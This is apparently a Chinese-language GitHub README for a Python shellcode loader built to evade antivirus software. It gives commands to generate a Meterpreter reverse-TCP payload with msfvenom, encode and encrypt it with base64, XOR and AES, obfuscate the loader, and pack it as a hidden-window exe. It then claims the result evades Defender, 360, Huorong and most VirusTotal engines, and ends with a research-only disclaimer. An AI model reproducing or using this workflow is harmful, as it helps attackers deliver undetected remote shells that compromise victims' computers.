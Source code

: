 # python-shellcode-loader

<a name="ptTMq"></a>
## 简单介绍
免杀方式 msfvenom生成raw格式的shellcode-->base64-->XOR-->AES<br />将python代码缩小并混淆最后生成exe<br />目前过DF、360和火绒  virustotal：7/66过卡巴斯基、迈克菲等
<a name="H2jnt"></a>
## 获取项目
git clone https://github.com/HZzz2/python-shellcode-loader.git <br />cd python-shellcode-loader
<a name="CuRMC"></a>

git clone https://github.com/HZzz2/python-shellcode-loader.git
cd python-shellcode-loader
pip install -r .\requirements.txt

## 生成shellcode
#生成shellcode<br />`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`
<a name="rNUTI"></a>
## base64编码shellcode并替换jiami.py中的值
#base64<br />`base64 -w 0 -i rev.raw > rev.bs64`<br />`cat rev.bs64`<br />复制base64的值替换jiami.py中payload       也就是 第二十五行 sc='payload' 
<a name="uXwYU"></a>
## 加密base64并替换main.py中的值
#加密base64后的shellcode<br />`python3 jiami.py`<br />#会生成一个aes-xor.txt的文件，复制文件里的值(经过XOR和AES加密后)<br />复制的值替换main.py中的payload   也就是第四十一行 jiami_sc='payload'
<a name="RhzZp"></a>
## 缩小和混淆py代码
<a name="K5dP3"></a>
### 缩小python代码
`pyminify main.py --output main-mini.py`
<a name="PTqkf"></a>
### 混淆main-mini.py中的python代码
[https://pyob.oxyry.com/](https://pyob.oxyry.com/)  在线混淆<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654524591386-7385c972-05e4-4761-bac3-311ae4ab2b0c.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=531&id=u32a8913b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=664&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=192572&status=done&style=none&taskId=uf5d03036-4fc8-4141-aec3-77143fc268e&title=&width=1535.2)<br />将混淆后的代码保存到一个文件中，比如文件名为:main-mini-ob.py
<a name="s0SXj"></a>
## 打包成可执行文件exe
#打包成exe<br />`pyinstaller.exe -Fw -i .\setting.ico --key=leslie .\main-mini-ob.py`<br />-F 打包为单文件 -w 不显示窗口   -i ico图标文件  --key  加密字节码的密钥<br />等待打包完成。。。。<br />打包好后的可执行程序在dist目录中
<a name="dr6Hv"></a>
## 流程图
![](https://cdn.nlark.com/yuque/0/2022/jpeg/26697321/1654524239719-d5ff881a-602c-4508-81b8-8e14c0d41595.jpeg)
<a name="SyXYB"></a>
## 检测图


### DF
![image](https://user-images.githubusercontent.com/22775890/172209887-134b5107-353b-45e2-a3b6-9e65b5189b8c.png)


### 火狐
![image](https://user-images.githubusercontent.com/22775890/172209706-1634bd75-7fe4-4844-bf95-bb8e3dea0540.png)


### 360杀毒
![image](https://user-images.githubusercontent.com/22775890/172209912-86663b43-9afe-40ec-ba1a-dd6951f04ac3.png)


### 360安全卫士云查杀
![image](https://user-images.githubusercontent.com/22775890/172209928-b96f0201-2b4d-4efb-bf4c-33df8ed3ce03.png)


### virustotal
![image](https://user-images.githubusercontent.com/22775890/172209945-6aa0f8d1-dbe2-443d-9bf1-b127fe271aa9.png)


https://user-images.githubusercontent.com/22775890/172209225-080c2549-45cc-4135-a907-38738ab42df5.mp4



## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。











